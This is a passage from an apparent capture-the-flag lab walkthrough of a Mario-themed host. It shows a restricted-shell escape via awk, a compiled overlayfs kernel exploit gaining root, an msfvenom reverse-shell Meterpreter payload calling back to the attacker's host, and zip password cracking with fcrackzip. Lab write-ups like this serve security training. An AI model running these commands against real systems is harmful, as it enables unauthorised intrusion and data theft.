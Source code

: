 My first attempt at breaking out of the shell was to try and use command execution from within vim, but the version of vim installed does not allow this, but as awk was available, I was able to break out by running `awk 'BEGIN {system("/bin/bash")}'`

Once out of the shell, I proceeded to look around to see if there was anything that may help me get root, but didn't find anything interesting and instead compiled the [overlayfs exploit](https://www.exploit-db.com/exploits/37292/) and escalated using it:

```shell_session
luigi@supermariohost:~$ uname -a
Linux supermariohost 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
luigi@supermariohost:~$ nano ofs
luigi@supermariohost:~$ mv ofs ofs.c
luigi@supermariohost:~$ gcc ofs.c -o ofs
luigi@supermariohost:~$ ls -l
total 32
-rw-r--r-- 1 root  root    283 Mar  8 13:45 message
-rwxrwxr-x 1 luigi luigi 13650 Jun 11 14:28 ofs
-rw-rw-r-- 1 luigi luigi  4993 Jun 11 14:28 ofs.c
-rw-rw-r-- 1 luigi luigi   945 Jun 11 14:21 shell.php
luigi@supermariohost:~$ chmod +x ofs
luigi@supermariohost:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```

## Acquiring and Cracking First Flag
Now that I had root access, I used msfvenom to create a Meterpreter executable by running `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.2.0.3 -f elf > shell.elf` and executed it on the target whilst running the `multi_handler` module in Metasploit.

Once I had a Meterpreter session, I began to poke around in `/root` and found a file named `flag.zip`. I tried to unzip this on the target, and found that the ZIP file is password protected; so I proceeded to download it and try to crack it using fcrackzip and the word list I had previously generated to crack the SSH passwords:

```shell_session
meterpreter > download flag.zip
[*] downloading: flag.zip -> flag.zip
[*] download   : flag.zip -> flag.zip
***
root@kali:~# fcrackzip -u -D -p luigi-wordlist-mutated.txt flag.zip -v
found file 'flag.txt', (size cp/uc    216/   338, flags 9, chk 1208)
```

As none of the passwords in the word list were successful, I tried again using the `rockyou.txt` word list, and successfully found the password:

